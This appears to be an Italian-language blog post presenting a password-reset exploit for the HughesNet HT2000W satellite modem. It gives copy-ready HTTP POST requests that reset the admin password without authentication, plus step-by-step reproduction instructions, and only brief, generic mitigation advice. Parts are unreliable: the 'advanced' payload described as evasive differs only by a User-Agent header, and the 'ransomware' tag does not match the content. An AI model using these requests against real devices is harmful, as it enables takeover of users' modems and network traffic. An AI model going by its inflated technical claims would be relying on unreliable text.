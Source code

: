 ```yaml
---
layout: post
title: '[webapps] HughesNet HT2000W Satellite Modem - Password Reset' 
date: 2024-08-24
categories: [security, ransomware]
---
```


# HughesNet HT2000W Satellite Modem - Vulnerabilità di Password Reset

## Introduzione
In questo articolo viene analizzata una vulnerabilità di sicurezza rilevata nel satellite modem HT2000W fornito da HughesNet. Questa vulnerabilità consente ad un attaccante di eseguire un reset della password, compromettendo così l'integrità e la riservatezza dei dati dell'utente. Data l'estrema gravità di tale problema, è fondamentale comprenderne i dettagli e come intervenire per mitigare i rischi associati.

## Dettagli della Vulnerabilità
La vulnerabilità risiede nel processo di ripristino password del modem. Un attaccante può sfruttare questa vulnerabilità inviando una richiesta HTTP appositamente formulata al modem, la quale consente di eseguire il reset della password senza conoscere la password originale. Questa vulnerabilità è presente in tutte le versioni del firmware del modem HT2000W.

## Esempio di Payload Semplice
Un esempio di attacco può essere costruito tramite il seguente payload HTTP:

```http
POST /api/system/user_management/password_reset HTTP/1.1
Host: 192.168.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

username=admin&new_password=hacker&confirm=hacker
```

## Esempio di Payload Avanzato
Un payload più avanzato potrebbe includere tecniche di evasione, come l'utilsizzo di user agent falsi o di indirizzi IP dinamici:

```http
POST /api/system/user_management/password_reset HTTP/1.1
Host: 192.168.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)

username=admin&new_password=hacker&confirm=hacker
```

## Procedura per Riprodurre la Vulnerabilità
- Individuare l'indirizzo IP del modem
- Creare una richiesta HTTP POST come mostrato nei payload di esempio
- Invia la richiesta al modem

## Richiesta HTTP
Ecco un esempio di richiesta HTTP che può essere utilizzata per inviare il payload:

```http
POST /api/system/user_management/password_reset HTTP/1.1
Host: <modem ip>
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

username=admin&new_password=<new_password>&confirm=<new_password>
```

## Impatto della Vulnerabilità
L'esito di un attacco riuscito comporta il totale controllo del modem da parte dell'attaccante. Questo permette l'accesso e la manipolazione dei dati dell'utente, oltre alla possibilità di utilizzare la connessione internet per fini illeciti.

## Patch e Mitigazioni
Al momento della pubblicazione di questo articolo, HughesNet non ha rilasciato alcuna patch ufficiale. Si consiglia di cambiare frequentemente la password di amministrazione del modem e di monitorare regolarmente l'accesso al modem per rilevare eventuali attività sospette.

## Conclusione
Questa vulnerabilità evidenzia l'importanza di una gestione sicura delle password e la necessità di monitorare costantemente l'attività di rete. Si raccomanda di applicare eventuali patch non appena rilasciate e di utilizzare tecniche di sicurezza avanzate per proteggere l'accesso al modem.

## Considerazioni
Nonostante le continue evoluzioni in materia di sicurezza informatica, le vulnerabilità come questa persistono e rappresentano una minaccia reale per gli utenti. È fondamentale per gli sviluppatori e i fornitori di servizi internet prendere seriamente questi problemi e lavorare per fornire soluzioni efficaci e tempestive.

